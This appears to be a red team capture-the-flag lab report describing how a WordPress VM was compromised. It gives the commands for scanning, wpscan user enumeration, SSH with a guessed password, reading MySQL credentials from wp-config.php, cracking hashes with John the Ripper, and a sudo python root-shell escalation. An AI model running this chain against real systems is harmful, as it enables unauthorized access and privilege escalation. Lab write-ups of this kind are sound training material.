



# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan result for `Target 1` machine reveal the below services and OS details:

Command to run:

```
$ nmap -A 192.168.1.110
```

Screenshot of command output:


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP   Open SSH
  - Port 80/TCP   Open http
  - Port 111/TCP  Open rpcbind
  - Port 139/TCP  Open netbios-ssn
  - Port 445/TCP  Open netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress Enumeration
  - Weak Password
  - Improper SSH Configuration
  - File Permission Access
  - Weakly salted Password Hash
  - User Privilege Escalation

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - `Wordpress Enumeration:` I enumerated users of the Wordpress site.

        The command to run Wordpress enumeration

        ```
        $ wpscan --url http://192.168.1.110/wordpress --enumerate u
        ```

        Screenshot of the output of this command: 

        
        
        

      - From the user enumeration, we found two users such as `michael` and `steven`. 

      - `Weak Password:` We tried to guess the password of user `michael`. After some failed attempts, we had successfully guessed it, as it was very easy password which was actually his name. 

      - `Improper SSH Configuration:` Then I did ssh to the target machine using Michael's credential i.e. user: `michael` and password: `michael`
      
        Command: 
        
        ```
        $ ssh michael@192.168.1.110
        ```

        Screenshot:

        

      - Then I looked for the flag1 in different files and found it in `service.html` as a comment below the footer. 

        Command:

        ```
        $ cd /var/www/html
        $ ls -al
        $ less service.html
        ```

        Screenshot: 

        
        


  - `flag2`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - This was the continuation from the last exploit explained in flag1
      - I used the `find` command to find flag2 and found it in the directory `/var/www`.

        Command to run:  

        ```
        $ find / -iname *flag2*
        $ cd /var/www
        $ ls 
        $ cat flag2.txt
        ```
        
        Screenshot:

        

  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - `File Permission Access:` I tried to find MySQL database credentials in the wp-config.php file located in the . I found the username and password which are `root` and `R@v3nSecurity` respectively. Then I accessed the MySQL.

        Command to run:

        ```
        $ cd /var/www/html/wordpress
        $ less wp-config.php
        $ mysql -u root -p
        ```

        Screenshot: 

        
        
        

      - Then I traversed the database contents of Wordpress and found flag3 in the table `wp_posts`.

        Command to run:

        ```
        $ show databases;
        $ use wordpress;
        $ show tables;
        $ select * from wp_posts;
        ```

        Screenshot:

        
        
        
        

  - `flag4`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - I found the password hashes in the table named `wp_users`. I copied the user and password hashes into a text file named `wp_hashes.txt`. 

        Command to run:

        ```
        $ select * from wp_users;
        ```

        Screenshot: 

        

      - `Brute Force:` Then I used the `John the Ripper` to crack the password hashes. The password hash of user `steven` had been cracked within short time. But Michael's hash was taking very long time to crack. But we had his password already with me from previous activity. So I moved on the next step after I had found Steven's password.

        Command to run:

        ```
        $ john wp_hashes.txt
        ```

        Screenshot:

        

      - `Improper SSH Configuration:` Then I ssh'ed to the target machine using the steven's credentials. 

        Command to run:

        ```
        $ ssh steven@192.168.1.110
        ```

      - `Privilege Escalation:` Then I figured out that Steven can run python command using `sudo` command. In order to gain root access on the target machine, I ran the python command as presented below. 

        Command to run:

        ```
        $ sudo -l
        $ sudo python -c 'import os; os.system("/bin/sh")'
        $ whoami
        ```

        Screenshot:

        

      - After becoming root access, I searched for the flag4 text file using the `find` command and found it in the directory `/root/`. 

        Command to run:

        ```
        $ find / -iname flag*
        $ cat /root/flag4.txt
        ```

        Screenshot:

        
        

    